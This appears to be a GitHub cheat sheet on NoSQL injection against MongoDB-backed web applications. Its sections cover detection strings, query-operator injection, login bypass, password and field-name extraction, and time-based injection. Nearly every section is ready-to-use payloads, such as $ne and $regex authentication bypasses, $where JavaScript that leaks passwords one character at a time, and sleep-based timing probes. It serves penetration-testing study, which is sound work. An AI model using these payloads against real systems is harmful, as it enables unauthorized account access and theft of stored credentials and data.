 ### Table of Contents

1. [Basic Operator Difference Between SQLi and NoSQLi](#basic-operator-difference-between-sqli-and-nosqli)
2. [Detecting NoSQLi Vulnerability](#detecting-nosqli-vulnerability)
3. [NoSQL Operator Injection](#nosql-operator-injection)
4. [Submitting Query Operators](#submitting-query-operators)
5. [MongoDB Login Bypass](#mongodb-login-bypass)
6. [MongoDB Data Retrieving](#mongodb-data-retrieving)
7. [Operator Injection to Retrieve Unknown Data](#operator-injection-to-retrieve-unknown-data)
8. [Time-Based NoSQL Injection](#time-based-nosql-injection)

---

### Basic Operator Difference Between SQLi and NoSQLi

- **`or`** → **`||`**
- **`and`** → **`&&`**
- **`-- -`** → **`%00`**

---

### Detecting NoSQLi Vulnerability

#### For MongoDB Detection:
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
#### Causing Syntax Error in MongoDB:
```
'
```
#### Escaping the Syntax Error in MongoDB:
```
\'
```
Or we can try:
```
%00
```
#### Injecting in JSON Format:
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### Others:
```
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
{"$where": "sleep(5000)"}
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

---

### Confirming Conditional Behavior

```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'||'1'=='1
'%00
```

**Example with Explanation:**

1. ```category=Gifts' && 0 && 'x``` → This will return no items like ```category=Gifts' and 1=0-- -``` in SQL injection.
2. ```category=Gifts' && 1 && 'x``` → This will return Gift items like ```category=Gifts' and 1=1-- -``` in SQL injection.
3. ```category=Gifts' || 1 || 'x``` → This will return all the items like ```category=Gifts' or 1=1-- -``` in SQL injection.
4. Same as 3.

---

### NoSQL Operator Injection

- **`$where`** - Matches documents that satisfy a JavaScript expression.
- **`$ne`** - Matches all values that are not equal to a specified value.
- **`$in`** - Matches all of the values specified in an array.
- **`$regex`** - Selects documents where values match a specified regular expression.

For more details: [Portswigger](https://portswigger.net/web-security/nosql-injection#nosql-operator-injection)

---

### Submitting Query Operators

In **JSON** messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.

If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

---

### MongoDB Login Bypass

- `{"$regex":"wien.*"}` → For username
- `{"$ne":"Invalid"}` → For password
- `{"$in":["admin","administrator","superadmin"]}` → For brute force

![MongoDB Login Bypass Screenshot](https://github.com/user-attachments/assets/18902009-c2d8-4162-b5d8-7ebb221fd49e)

Note: We need to input at least one valid credential to make a valid query.

If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

---

### MongoDB Data Retrieving

**Extracting Password:**
```
' && this.password.length < 50%00 → For extracting password length in URL
' && this.password[0] == 'a'%00 → For extracting password in URL
{"username":"admin","password":{"$regex":"^a*"}} → For extracting password via operator
```

---

### Identifying Field Names

```
' && this.anything && 'a'=='b → Confirming if there is a field name
' && this.username!=' → Identifying field names [Note: If there is a username field exists, it will respond with a different type of message]
' && this['u'] && 'a'=='b → Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```

---

### Operator Injection to Retrieve Unknown Data

```
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"}  → To generate a server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  → To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}}  → To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}
```

**Key Details:**
- `Object.keys(this)[0].match('^.{0}.*')` → To identify data size (e.g., Password).
- `Object.keys(this)[0].match('^.{0}0.*')` → To fetch the data.
- `this.forgotpwd.match('^.{0}.*')` → To fetch specific key-value data size.
- `this.forgotpwd.match('^.{0}0.*')` → To fetch specific key-value data.

1st `0` means key number.  
2nd `0` means data size.  
3rd `0` means data character.  
For brute forcing, select only 2nd and 3rd `0`.

---

### Time-Based NoSQL Injection

```
{
  "username": "admin",
  "password": { "$where": "sleep(5000)" }
}
```

**Data Retrieve**

- **Initial Request:**
```
{
  "product": "Tablet",
  "price": 350,
}
```

- **Malformed Request:**
```
{
  "product": { "$eq": "Tablet" },
  "price": { "$where": "if (this.price > 300) { sleep(5000); return true; } return false;" }
}
```

---
